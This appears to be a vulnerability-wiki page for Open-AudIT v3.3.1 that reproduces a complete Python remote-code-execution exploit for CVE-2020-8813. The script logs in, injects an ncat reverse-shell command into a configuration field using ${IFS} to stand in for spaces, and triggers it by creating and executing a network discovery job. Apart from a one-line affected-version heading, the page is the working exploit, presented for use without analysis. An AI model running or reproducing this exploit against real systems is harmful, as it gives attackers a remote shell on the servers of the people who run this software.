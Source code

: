 <languages /> <translate>

漏洞影響
--------

</translate>

    Open-AudIT v3.3.1

EXP
---

    #!/usr/bin/python3

    # Exploit Title: Open-AudIT Professional v3.3.1 Remote Code Execution
    # Date: 22/04/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://opmantek.com/
    # Version: v3.3.1
    # Tested on: Ubuntu 18.04 / PHP 7.2.24

    import requests
    import sys
    import warnings
    import random
    import string
    from bs4 import BeautifulSoup
    from urllib.parse import quote

    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')


    if len(sys.argv) != 6:
       print("[~] Usage : ./openaudit-exploit.py url username password ip port")
       exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    ip = sys.argv[4]
    port = sys.argv[5]

    request = requests.session()

    def inject_payload():
       configuration_path = url+"/en/omk/open-audit/configuration/90"
       data = 'data={"data":{"id":"90","type":"configuration","attributes":{"value":";ncat${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s${IFS};"}}}' % (ip, port)
       request.patch(configuration_path, data)
       print("[+] Payload injected in settings")


    def start_discovery():
       discovery_path = url+"/en/omk/open-audit/discoveries/create"
       post_discovery_path = url+"/en/omk/open-audit/discoveries"
       scan_name = "".join([random.choice(string.ascii_uppercase) for i in range(10)])
       req = request.get(discovery_path)

       response = req.text
       soup = BeautifulSoup(response, "html5lib")
       token = soup.findAll('input')[5].get("value")
       buttons = soup.findAll("button")
       headers = {"Referer" : discovery_path}
       request_data = {
       "data[attributes][name]":scan_name,
       "data[attributes][other][subnet]":"10.10.10.1/24",
       "data[attributes][other][ad_server]":"",
       "data[attributes][other][ad_domain]":"",
       "submit":"",
       "data[type]":"discoveries",
       "data[access_token]":token,
       "data[attributes][complete]":"y",
       "data[attributes][org_id]":"1",
       "data[attributes][type]":"subnet",
       "data[attributes][devices_assigned_to_org]":"",
       "data[attributes][devices_assigned_to_location]":"",
       "data[attributes][other][nmap][discovery_scan_option_id]":"1",
       "data[attributes][other][nmap][ping]":"y",
       "data[attributes][other][nmap][service_version]":"n",
       "data[attributes][other][nmap][open|filtered]":"n",
       "data[attributes][other][nmap][filtered]":"n",
       "data[attributes][other][nmap][timing]":"4",
       "data[attributes][other][nmap][nmap_tcp_ports]":"0",
       "data[attributes][other][nmap][nmap_udp_ports]":"0",
       "data[attributes][other][nmap][tcp_ports]":"22,135,62078",
       "data[attributes][other][nmap][udp_ports]":"161",
       "data[attributes][other][nmap][timeout]":"",
       "data[attributes][other][nmap][exclude_tcp_ports]":"",
       "data[attributes][other][nmap][exclude_udp_ports]":"",
       "data[attributes][other][nmap][exclude_ip]":"",
       "data[attributes][other][nmap][ssh_ports]":"22",
       "data[attributes][other][match][match_dbus]":"",
       "data[attributes][other][match][match_fqdn]":"",
       "data[attributes][other][match][match_dns_fqdn]":"",
       "data[attributes][other][match][match_dns_hostname]":"",
       "data[attributes][other][match][match_hostname]":"",
       "data[attributes][other][match][match_hostname_dbus]":"",
       "data[attributes][other][match][match_hostname_serial]":"",
       "data[attributes][other][match][match_hostname_uuid]":"",
       "data[attributes][other][match][match_ip]":"",
       "data[attributes][other][match][match_ip_no_data]":"",
       "data[attributes][other][match][match_mac]":"",
       "data[attributes][other][match][match_mac_vmware]":"",
       "data[attributes][other][match][match_serial]":"",
       "data[attributes][other][match][match_serial_type]":"",
       "data[attributes][other][match][match_sysname]":"",
       "data[attributes][other][match][match_sysname_serial]":"",
       "data[attributes][other][match][match_uuid]":""

       }
       print("[+] Creating discovery ..")
       req = request.post(post_discovery_path, data=request_data, headers=headers, allow_redirects=False)
       disocvery_url = url + req.headers['Location'] + "/execute"
       print("[+] Triggering payload ..")
       print("[+] Check your nc ;)")
       request.get(disocvery_url)


    def login():
       login_info = {
       "redirect_url": "/en/omk/open-audit",
       "username": username,
       "password": password
       }
       login_request = request.post(url+"/en/omk/open-audit/login", login_info)
       login_text = login_request.text
       if "There was an error authenticating" in login_text:
           return False
       else:
           return True

    if login():
       print("[+] LoggedIn Successfully")
       inject_payload()
       start_discovery()
    else:
       print("[-] Cannot login!")